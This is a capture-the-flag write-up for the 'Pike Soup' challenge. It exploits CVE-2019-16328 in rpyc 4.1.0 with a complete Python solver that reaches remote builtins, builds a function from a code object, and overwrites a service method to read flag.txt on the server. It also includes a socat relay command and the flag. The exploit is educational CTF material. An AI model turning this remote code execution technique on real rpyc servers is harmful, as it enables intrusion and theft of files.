



## Pike Soup  - Misc (by @clubby789)



This was an interesting exploration into [rpyc](https://rpyc.readthedocs.io/en/latest/), or Remote Python Call, which is typically used for symmetrical remote procedure calls, clustering and distributed computing. They allow for manipulation of remote python objects as if they were local.
### Description/Source

```py
#!/usr/local/bin/python

# server.py

import rpyc
from rpyc.utils.server import ThreadedServer

class CalcService(rpyc.Service):
    def exposed_add(self, l, r):
        return l + r
    def exposed_sub(self, l, r):
        return l - r
    def exposed_mul(self, l, r):
        return l * r
    def exposed_div(self, l, r):
        return l / r

if __name__ == "__main__":
    server = ThreadedServer(CalcService, port=9999)
    server.start()
```

```Dockerfile
FROM python:3.11.1-slim-bullseye
WORKDIR /app
RUN pip install --no-cache rpyc==4.1.0
COPY server.py flag.txt ./
USER nobody
CMD ["python", "server.py"]
```

From the Dockerfile, we can see that there is a suspicious specific version given which is `4.1.0` for `rpyc`. Upon searching, we discover [CVE-2019-16328](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16328) which affects versions of rpyc `<= 4.1.1`. This was later patched in [this commit](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16328) and a [disclosure](https://rpyc.readthedocs.io/en/latest/docs/security.html) was added to their documentation.

We can see from the patch that the previous vulnerable version allowed users to call `getattr` on a user provided object, which gives a reference to a method on this object. Using this we can construct a function using the `CodeType` object and overwrite one of the `exposed_*` methods on the `CalcService`.

First we give ourselves an instance provided by their instance



To connect to their instance, I ran this command

```
socat tcp-listen:1337,fork,reuseaddr openssl:pike-4971d4f85f3cd618.mc.ax:1
```

> we run a TCP server on port 1337 using socat. We fork a separate instance of socat for each new connection. The reuseaddr option allows us to reuse the server port combination immediately once the server is shut down. We use ssl encryption to connect to the pike host and can interact with the server by connecting to our local host and port.

### Solver

```python
from time import time
import rpyc

def exploit(param):
    with open('./flag.txt', 'r') as f:
        abc = f.read()
        return abc


t1 = time()
r = rpyc.connect('localhost', 1337)
handler = rpyc.core.consts.HANDLE_CMP

print("Connected!")

def netref_getattr(netref, attrname):
    return r.sync_request(handler, netref, attrname, '__getattribute__')

remote_svc_proto = netref_getattr(r.root, '_protocol')
remote_dispatch = netref_getattr(remote_svc_proto, '_dispatch_request')
remote_class_globals = netref_getattr(remote_dispatch, '__globals__')
remote_modules = netref_getattr(remote_class_globals['sys'], 'modules')

print("Got the modules!") 

_builtins = remote_modules['builtins']
remote_builtins = {k: netref_getattr(_builtins, k) for k in dir(_builtins)}

print("Got the builtins!")


# populate globals for CodeType calls on remote
remote_globals = remote_builtins['dict']()
for name, netref in remote_builtins.items():
    remote_globals[name] = netref

for name, netref in netref_getattr(remote_modules, 'items')():
    remote_globals[name] = netref

print("Populated globals!")

# create netrefs for types to create remote function malicously
remote_types = remote_builtins['__import__']("types")
remote_types_CodeType = netref_getattr(remote_types, 'CodeType')
remote_types_FunctionType = netref_getattr(remote_types, 'FunctionType')

print("Got function types!")

print("Just getting started time:", int(time() - t1), "seconds")


arg_names = ['co_argcount', 'co_posonlyargcount', 'co_kwonlyargcount', 'co_nlocals', 'co_stacksize', 'co_flags','co_code', 'co_consts', 'co_names', 'co_varnames', 'co_filename', 'co_name', 'co_name', 'co_firstlineno','co_lnotab', 'co_lnotab', ]
func_code = exploit.__code__

codetype_args = [getattr(func_code, n) for n in arg_names]


remote_eval_codeobj = remote_types_CodeType(*codetype_args)
remote_eval = remote_types_FunctionType(remote_eval_codeobj, remote_globals)

remote_setattr = remote_builtins['setattr']
remote_type = remote_builtins['type']

remote_setattr(remote_type(r.root), 'exposed_add', remote_eval)

res = r.root.exposed_add()
```

### Flag



```
dice{pyj41l_w1th_4_tw15t}
```

### References / Other solutions

- [Author's Writeup](https://gist.github.com/clubby789/b681e7a40da070713c3760953d8df1c3)
- [CVE PoC](https://github.com/tomerfiliba-org/rpyc/security/advisories/GHSA-pj4g-4488-wmxm)
